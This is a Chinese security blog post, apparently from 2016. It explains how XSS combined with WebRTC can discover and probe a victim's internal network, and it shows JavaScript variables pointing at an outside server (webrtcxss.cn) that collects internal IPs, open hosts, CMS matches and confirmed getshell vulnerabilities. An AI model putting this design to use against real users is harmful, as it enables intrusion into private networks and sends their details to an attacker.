 ```yaml
---
title: XSS自动化入侵内网
description: 利用webrtc的特性对内网进行检测、入侵
date: 2016-12-14 22:40:25
tags:
  - web security
  - xss
aliases:
  - /p/use-xss-automation-invade-intranet
---
```


## 0x01 前言：

很多人都认为XSS只能做盗取cookies的活。以至于有些SRC、厂商对待反射型XSS视而不见，或者说是根本不重视。

直到“黑哥”在之前的演讲中提到XSS入侵内网，情况才得以好转。但是经过本人测试，黑哥所说的XSS内网入侵，应该是包含了浏览器漏洞。那没有浏览器漏洞该如何呢？就像0x_Jin之前在乌云报道的搜狐漏洞那样：<http://www.wooyun.org/bugs/wooyun-2014-076685>

这里有几个需要注意的地方：由于浏览器的同源策略问题导致没有办法做到真正意义上的内网入侵，当然如果你又浏览器的0day，那事情就另当别论了。

而0x_Jin在乌云中的那篇漏洞报告，我自己本人也去问了。答复就是只是检测了开放的80端口，就没有后续了。黑哥没有公布完整的代码，0x_Jin没有深入。既然都没有，就交给我吧。这里我将会使用其他办法“绕过浏览器的同源策略”。

## 0x02构架：

代码采用了类似XSS平台那种实时反馈机制。在这里我先把变量介绍一遍：
```javascript
var onlyString           = "abc";
var ipList               = [];
var survivalIpLIst       = [];
var deathIpLIst          = [];
var sendsurvivalIp       = "http://webrtcxss.cn/Api/survivalIp";
var snedIteratesIpUrl    = "http://webrtcxss.cn/Api/survivalPortIp";
var snedIteratesCmsIpUrl = "http://webrtcxss.cn/Api/survivalCmsIp";
var sendExistenceVul     = "http://webrtcxss.cn/Api/existenceVul";
```

1. onlyString ： 唯一字符串，用于让服务器识别当前发送的请求是哪一个项目，真实代码是不会写成abc的，会使用md5(date('Y-m-d H:i:s'))来生成hash。

2. ipList ： 数组变量用来储存webrtc获取的内网IP地址。

3. survivalIpLIst ： 数组对象用于存放开放80端口的IP地址

4. deathIpLIst ： 数组对象用于存放不存在80端口的IP，用于判断

5. sendsurvivalIp ： 发送当前内网IP的信息到服务端

6. snedIteratesIpUrl ： 从服务端反馈的cms路径对当前存在80端口的IP进行判断，看现有存活的IP地址是否可以在服务端里找到所匹配的CMS信息
7. snedIteratesCmsIpUrl ： 用于在已匹配到的cms信息里，从服务端里验证这个cms是否存在我们在服务端里所保存的getshell漏洞
8. sendExistenceVul ： 已确定漏洞，发送到服务端

之前在0x01前言里说到，这里我将会使用其他办法“绕过浏览器的同源策略”。整段代码的构架:https://www.processon.com/view/link/5711cdc6e4b0d7e7748c34ec
